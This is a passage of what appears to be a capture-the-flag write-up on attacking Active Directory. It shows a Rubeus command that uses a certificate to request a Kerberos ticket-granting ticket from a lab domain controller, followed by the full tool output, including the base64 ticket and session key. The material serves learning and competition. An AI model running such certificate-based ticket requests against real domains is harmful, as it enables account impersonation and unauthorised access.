 
![Kerberos SKEW](/assets/breizhctf-22-kerberos-skew.png)

Let's try again with clock aligned:
```
C:\Users\user\Downloads> ./Rubeus.exe asktgt /user:???????? /certificate:????????.pfx /domain:conti.ru /dc:10.0.20.11 /createnetonly:C:\Windows\System32\cmd.exe  /getcredentials
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/  v2.0.2
[*] Action: Ask TGT
[*] Showing process : False
[*] Username        : 8C6NPBIX
[*] Domain          : T78KN4RS
[*] Password        : KTK21ESA
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5128
[+] LUID            : 0x343283
[*] Using PKINIT with etype rc4_hmac and subject: CN=?????
[*] Building AS-REQ (w/ PKINIT preauth) for: 'conti.ru\????????'
[*] Target LUID : 3420803
[*] Using domain controller: 10.0.20.11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIGTjCCBkqgAwIBBaEDAgEWooIFXTCCBVlhggVVMIIFUaADAgEFoQobCENPTlRJLlJVoh0wG6ADAgEC
      oRQwEhsGa3JidGd0Gwhjb250aS5ydaOCBR0wggUZoAMCARKhAwIBAqKCBQsEggUHRzsczbSM/Q4KLi0/
      3EGc3dTPdCJkND8ThMqGyvrQ9qQTLVNcCMqvs+hqIwxkrR7piDwJYHknzF25WtLWdcpErbsLOzze1lKK
      kPgHsextNyVOQHKhO1+Sm4Ry1u0Aa619rMfU4I/UQ3uplGcals34BnKtx0mVULJZokoAeWG7TsxZwQeL
      +oWW03xl718h095MCnamgIE0UigHg1iUz2/Md6b2cNuypCytPdo2Cr+iuO4SB53RxPapTxni9624qYyx
      GjHlOVegOaQPntNYZfvmvl1v015fLiNsU5ss/DyaLF5K1Xo1Qkz3eoA26YsaTGpg9wGuW5wEWHmjq6Er
      h/IpUmea0hRqPR0yKcYDeVa4YsNo7Fc2G5JuBtX5MjSV6f6dQ0PcSni6mFcxT3H/Gi91q7I1gK7Nl4kw
      [...]
      Akcg3UyFBaoaYessGLmwqEnyNe7UeAQdmB0LKiwSlL6WqTxgbyM0MiLE5lk2biEuW6uz4dl3lQ7nWmqy
      KrhgdxNTCZXekQeRlhrzctYyjFfo20NYTYDzCnIuCHahdkVpVrCqBTKswU9QKjiOScGApEdgoPIUUtc3
      FEV3wVJL7Nv0iKMtDgz7MVGh/eoq4ObBo6Z/cxY0xZMTz0bzTErSVI3CcwaxkGzktBRKWj4YSKqCl/sG
      DFA9CUngRPD+etUaE2JiqHS/CgTRaworwLPAcHyOMbY7Q/kTzRjBvrF6nF9a6IzAnl0JIbryI34TWrX7
      C9DW9Go6RniORoq6R4Lko4HcMIHZoAMCAQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQ
      LfNiidKACxOqykFrOkoURKEKGwhDT05USS5SVaInMCWgAwIBAaEeMBwbGtCQ0JTQnNCY0J3QmNCh0KLQ
      oNCQ0KLQntCgowcDBQBA4QAApREYDzIwMjIwNDAyMDIwNjQ4WqYRGA8yMDIyMDQwMjEyMDY0OFqnERgP
      MjAyMjA0MDkwMjA2NDhaqAobCENPTlRJLlJVqR0wG6ADAgECoRQwEhsGa3JidGd0Gwhjb250aS5ydQ==
[*] Target LUID: 0x343283
[+] Ticket successfully imported!  ServiceName              :  krbtgt/conti.ru
  ServiceRealm             :  CONTI.RU
  UserName                 :  ????????
  UserRealm                :  CONTI.RU
  StartTime                :  02/04/2022 02:06:48
  EndTime                  :  02/04/2022 12:06:48
  RenewTill                :  09/04/2022 02:06:48
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  LfNiidKACxOqykFrOkoURA==
```